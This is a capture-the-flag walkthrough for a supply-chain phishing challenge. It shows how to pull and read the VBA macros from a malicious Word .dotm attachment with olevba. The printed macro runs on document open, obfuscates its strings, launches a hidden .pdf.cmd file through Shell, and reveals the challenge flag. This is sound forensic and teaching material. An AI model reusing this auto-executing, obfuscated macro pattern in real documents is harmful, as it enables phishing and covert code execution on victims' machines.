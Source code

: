 # WALKTHROUGH: Khlos L Supplier

## Abstract

This challenge explores how supply chain attack can be done through a compromized third party/external company the target is dealing with.

If the trusted copany gets hacked and no preventive measures check the exchange between the two companies, it'll definetly get down too.

The players are given a list of mail dump from one of the workers. Upon inspection, 'MECHA PARTS NOTICE.eml' has an attachement.

Checking the attachement we find a `.docs.dotm` file that has macros within it. 

For the sake of simplicity, I didn't include a some kind of banner within the file that says enable macros or something of that sort like in [Here](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/t1137-office-vba-macros)

So the players have two options: 

  - Check the ,acros manually with wahtever software that opens `.dotm` files: NOT RECOMMENDED, if dealing with advanced malware samples iwth advanced techniques, one might get infected.

  - Use `olevba` to extract whatever the file has embedded.

## Olevba 
### Installation 
```bash
python3 -m venv ole_venv
source ole_venv/bin/activate
pip install oletools
```
### Usage

```bash
$ cp file.dotm file.zip
mkdir tmp_doc
unzip attachment.zip -d tmp_doc
ls -l tmp_doc/word
# look for vbaProject.bin
olevba tmp_doc/word/vbaProject.bin
```



```bash
(venv)$ olevba word/vbaProject.bin
olevba 0.60.2 on Python 3.12.3 - http://decalage.info/python/oletools
===============================================================================
FILE: word/vbaProject.bin
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Sub Document_Open()
    ' Social engineering message
    Dim arrMsg, arrTitle, aMsg, aTitle
    arrMsg = Array("S", "e", "c", "u", "r", "i", "n", "e", "t", "s", " ", "E", "N", "I", "T", " ", "s", "a", "y", "s", ":", " ", "6", "1", "7", "3", "2", "1", "a", "5", "b", "3", "f", "6", "8", "3", "b", "f", "6", "1", "0", "e", "6", "6", "c", "2", "7", "7", "8", "7", "b", "3", "b", "1")
    arrTitle = Array("C", "a", "t", " ", "T", "h", "e", " ", "F", "l", "a", "g", " ", "S", "e", "c", "o", "n", "d", " ", "E", "d", "i", "t", "i", "o", "n")
    
    aMsg = Join(arrMsg, "")
    aTitle = Join(arrTitle, "")
    
    MsgBox aMsg, vbOKOnly, aTitle

    ' Execute the dummy payload
    Dim x1 As Long
    Dim sPath As String
    sPath = Chr(67) & ":" & Chr(92) & Join(Array("U", "s", "e", "r", "s"), "") & Chr(92) & Join(Array("j", "o", "h", "n"), "") & Chr(92) & Join(Array("D", "o", "c", "u", "m", "e", "n", "t", "s"), "") & Chr(92)
    
    ' Payload file name char by char
    Dim arrFile
    arrFile = Array("S", "e", "c", "u", "r", "i", "n", "e", "t", "s", "E", "N", "I", "T", "_", "C", "a", "t", "T", "h", "e", "F", "l", "a", "g", "_", "S", "e", "c", "o", "n", "d", "E", "d", "i", "t", "i", "o", "n", ".", "p", "d", "f", ".", "c", "m", "d")
    sPath = sPath & Join(arrFile, "")
    
    x1 = Shell(sPath, vbHide)

    ' Log execution
    Dim fsoOb As Object, fOb As Object
    Set fsoOb = CreateObject(Join(Array("S", "c", "r", "i", "p", "t", "i", "n", "g", ".", "F", "i", "l", "e", "S", "y", "s", "t", "e", "m", "O", "b", "j", "e", "c", "t"), ""))
    Set fOb = fsoOb.CreateTextFile(Chr(67) & ":" & Chr(92) & "macro_log.txt", True)
    fOb.WriteLine "Macro executed at " & Now
    fOb.Close
End Sub

-------------------------------------------------------------------------------
VBA MACRO Module1.bas 
in file: word/vbaProject.bin - OLE stream: 'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub This()

End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|CreateTextFile      |May create a text file                       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|vbHide              |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```
